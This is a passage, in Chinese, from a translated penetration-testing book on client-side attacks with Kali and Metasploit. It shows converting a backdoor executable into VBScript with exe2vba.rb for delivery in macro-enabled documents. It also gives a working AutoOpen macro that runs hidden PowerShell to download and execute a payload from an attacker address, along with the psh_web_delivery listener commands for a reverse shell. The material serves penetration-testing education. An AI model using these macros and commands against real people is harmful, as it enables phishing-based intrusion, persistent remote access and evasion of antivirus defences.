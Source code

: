 扩展这种攻击方法，我们可以使用位于`/usr/share/metasploit-framework/tools`的`exe2vba.rb`将任何可执行文件转换为 VBScript。

例如，首先使用 Metasploit 框架创建一个后门。注意`X`表示后门将被创建为一个可执行文件（`attack.exe`），如下面的屏幕截图所示：

![使用 VBScript 进行攻击](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_11_03.jpg)

接下来，使用以下命令执行`exe2.vba`将可执行文件转换为 VBScript（确保使用正确的路径名）：

```
# ruby exe2vba.rb attack.exe  attack.vbs
[*] Converted 73802 bytes of EXE into a VBA script

```

这将允许将可执行文件放置在一个 Microsoft 启用宏的文档中并发送给客户端。VBScript 可用于执行反向 shell 并更改系统注册表，以确保 shell 保持持久。我们发现这种类型的攻击是绕过网络安全控制并保持与受保护网络连接的最有效方式之一。

从攻击者的角度来看，使用基于 VBScript 的漏洞利用有一些显著的优势（这仍然是一个强大的工具）。然而，它的使用正在迅速被更强大的脚本语言 PowerShell 所取代。

## 使用 Windows PowerShell 进行攻击系统

Windows PowerShell 是一个命令行 shell 和脚本语言，旨在用于系统管理。基于.NET 框架，它扩展了 VBScript 中可用的功能。语言本身是相当可扩展的。由于它是建立在.NET 库上的，你可以将来自诸如 C#或 VB.NET 等语言的代码合并进来。你还可以利用第三方库。尽管它是可扩展的，但它是一种简洁的语言。需要超过 100 行代码的 VBScript 可以减少到只有 10 行 PowerShell！

也许，PowerShell 最好的特性是它默认情况下在大多数现代基于 Windows 的操作系统（Windows 7 及更高版本）上可用，并且无法被移除。

我们将使用 Metasploit Framework 附带的 PowerShell 脚本来支持 Kill Chain 的攻击阶段。

为了发动攻击，我们将使用 Metasploit Framework 的 PowerShell Payload Web Delivery 模块。该模块的目的是快速在目标系统上建立会话。攻击不会写入磁盘，因此不太可能触发客户端防病毒软件的检测。攻击的启动和可用的模块选项如下截图所示：

![使用 Windows PowerShell 攻击系统](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_11_04.jpg)

Metasploit Framework 将生成一个可以嵌入文档并用于发动攻击的一行宏，如下示例代码所示：

```
 Sub AutoOpen()
 Call Shell("PowerShell.exe -w hidden -nop -ep bypass -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.1.102:4444/boom'))"",1)
 End Sub

```

在攻击完成之前，攻击者必须为传入 shell 准备一个监听器（`URIPATH`由 Metasploit 随机生成；确保为监听器设置正确的`URIPATH`）。创建监听器的命令如下：

```
 msf> use exploit/windows/misc/psh_web_delivery
 msf exploit(psh_web_delivery) > set SRVHOST 192.168.1.102
 msf exploit(psh_web_delivery) > set URIPATH boom
 msf exploit(psh_web_delivery) > exploit

```

成功的攻击将在攻击者的系统上创建一个交互式 shell。

### 提示
